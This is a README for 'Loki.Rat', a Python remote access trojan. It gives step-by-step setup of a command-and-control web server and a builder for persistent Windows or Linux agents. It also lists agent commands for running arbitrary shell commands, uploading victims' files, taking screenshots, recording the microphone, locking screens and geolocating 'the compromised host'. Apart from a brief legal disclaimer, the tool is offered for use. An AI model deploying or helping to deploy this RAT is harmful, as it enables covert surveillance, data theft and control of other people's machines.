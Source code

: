 # Pegasus Loki.Rat
     

    ___                                                                  _                   _       __       ___         _      ____ 
   F _ ",  ____     ___ _     ___ _     ____     _    _     ____        FJ         ____     FJ __    LJ      F _ ",      /.\    /_  _\
  J `-' | F __ J   F __` L   F __` L   F ___J   J |  | L   F ___J      J |        F __ J   J |/ /L          J `-'(|     //_\\   [J  L]
  |  __/F| _____J | |--| |  | |--| |  | '----_  | |  | |  | '----_     | |       | |--| |  |    \    FJ     |  _  L    / ___ \   |  | 
  F |__/ F L___--.F L__J J  F L__J J  )-____  L F L__J J  )-____  L    F L_____  F L__J J  F L:\ J  J  L    F |_\  L  / L___J \  F  J 
 J__|   J\______/F)-____  LJ\____,__LJ\______/FJ\____,__LJ\______/F   J________LJ\______/FJ__L \\_J.J__L   J__| \\__LJ__L   J__LJ____L
 |__L    J______FJ\______/F J____,__F J______F  J____,__F J______F    |________| J______F |__L  \L_||__|   |__|  J__||__L   J__||____|
                  J______F                                                                                                            
  
                                                                                                                          

    
![Loki.Rat](https://github.com/sobri3195/pegasus-loki-rat/blob/master/Lokirat.jpg)

Loki.Rat is a fork of the [Pegasus Loki RAT](https://github.com/sobri3195/Ares), it integrates new modules, like recording , lockscreen , and locate options.
Loki.Rat is a Python Remote Access Tool.

# Join our Telegram Channel [Loki.Rat](https://t.me/cybersecuritydown)


[![How to Use Loki.Rat]

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.
![Loki.Rat](https://3.bp.blogspot.com/-hCo9eJTSH5Y/WknUCULBwUI/AAAAAAAAAtY/i08DjoFqwLUsmnXhI7e5YX9AJuZmrjitQCLcBGAs/s1600/1234.png)

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/sobri3195/pegasus-loki-rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 127.0.0.1 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 127.0.0.1:8080 --threads 20
 ```
 The server should now be accessible on http://127.0.0.1:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://127.0.0.1:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
![Pegasus-Loki.Rat]
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.
     
     record
          -h, --help            show this help message and exit
          -t RECORD_SECONDS, --time RECORD_SECONDS
                                Set a timing in seconds for record. (e.g 10)
          -c CHANNELS, --channel CHANNELS
                                Channel for the microphone (e.g 2).
          -ch CHUNK, --chunk CHUNK
                                Chunk for the microphone (e.g 1024).
          -r RATE, --rate RATE  Rate (e.g 44100).
          
     lockscreen
     lock screen only on windows and Linux with Gnome environnement
     
     Geolocalisation
     locate the target machine , and print the Latitude and Longitude
          
     help
     This help.
```

## Author
Muhammad Sobri Maulana - Pegasus Hacker
